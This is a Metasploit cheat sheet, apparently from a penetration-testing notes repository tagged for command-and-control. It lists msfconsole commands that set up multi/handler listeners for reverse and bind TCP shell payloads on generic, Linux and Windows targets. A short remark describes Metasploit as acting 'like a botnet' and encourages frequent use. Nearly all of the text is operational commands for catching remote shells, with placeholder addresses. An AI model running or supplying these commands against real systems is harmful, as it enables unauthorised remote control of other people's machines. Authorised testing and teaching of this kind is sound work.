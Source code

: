 # Metasploit

Search Tag(s): #metasploit-framework #command-and-control

Note: You can use regular one-liners or create your own custom regular implants. Metasploit acts like a botnet so use it more often.

## 01 - Multi Handler

## 1.1 - Setting up a Generic TCP listener

### 1.1.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.1.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

## 1.2 - Setting up a Linux TCP listener

### 1.2.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/<x86 | x64>/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.2.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/<x86 | x64>/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

## 1.3 - Setting up a Windows TCP listener

### 1.3.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/[x64/]shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.3.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/[x64/]shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```